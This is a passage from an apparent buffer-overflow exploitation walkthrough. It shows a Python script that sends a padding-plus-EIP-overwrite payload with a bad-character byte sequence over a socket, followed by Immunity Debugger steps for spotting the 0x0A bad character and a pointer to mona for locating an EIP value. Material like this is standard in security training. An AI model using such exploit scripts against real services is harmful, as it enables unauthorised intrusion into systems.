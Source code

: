 ```python
# ALL BAD CHARS
# attackPayload = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'

# Modified
attackPayload = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'

payload = buffer + attackPayload + b'\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print('[+] Connecting ...');
s.connect((endpointIp, endpointPort))
print('[+] Sending Bad Char Payload ...')
s.send(payload)
print('[+] Sent')
s.close()
```
 - The initial payload is now `b'a' * 146 + b'\x04\x03\x02\x01'`. We have 146 a's to fill up the buffer, then 04030201 (Because of Little Endian) which will overflow into the `EIP`, then final all of our bad chars.
 - We need to use Immunity Debugger and determine which characters are causing issues.

 - After sending the initial payload with all the bad characters, we need to inspect the stack. We do this by right-clicking on the `ESP` registor and selecting `Follow in Dump`. We should now be able to see our bad character payload. 

 - Looking at the payload in the dump we can see that after `0A` there is a `00` and then it stops. This means there is mostly likely a problem with `0A` of `0B` (most likely `0A` because it's the line feed control character). Let's remove this from our attack payload and send the payload again.

 - This time it's much better. All of our attack chars are there.

<br>

### 4 - Find & Set EIP Value
 - We can view more information about the processes using:
```bash
!mona modules
```
